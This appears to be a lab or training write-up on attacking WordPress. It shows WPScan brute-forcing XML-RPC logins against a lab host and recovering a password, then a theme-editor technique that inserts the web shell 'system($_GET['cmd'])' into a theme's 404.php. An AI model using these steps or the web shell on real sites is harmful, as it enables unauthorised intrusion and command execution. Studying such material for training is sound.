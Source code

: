 ```shell-session
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: http://206.189.25.173:32521/ [206.189.25.173]
[+] Started: Thu Jun 23 06:25:23 2022

<SNIP>

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - roger / lizard                                                                                                                               
Trying roger / jacqueline Time: 00:01:24 <> (1920 / 14346312)  0.01%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: roger, Password: lizard
```

> The answer is **`lizard`**. 

This particular `rockyou.txt` wordlist is necessary to complete this exercise, I used one from `SecLists` that was unsuccessful on my NixOS machine. 
# Remote Code Execution (RCE) via the Theme Editor
## Attacking the WordPress Backend

With administrative access to WordPress, we can modify the PHP source code to execute system commands. To perform this attack, log in to WordPress with the administrator credentials, which should redirect us to the admin panel. Click on `Appearance` on the side panel and select `Theme Editor`. This page will allow us to edit the PHP source code directly. We should select an inactive theme in order to avoid corrupting the main theme.
### Theme Editor

![](https://i.imgur.com/apMgQw3.png)

We can see that the active theme is `Transportex` so an unused theme such as `Twenty Seventeen` should be chosen instead. 
### Selecting Theme

![](https://i.imgur.com/W4gCzDk.png)

Choose a theme and click on `Select`. Next, choose a non-critical file such as `404.php` to modify and add a web shell.
### Twenty Seventeen Theme - `404.php`

```php
<?php

system($_GET['cmd']);

/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page
<SNIP>
```
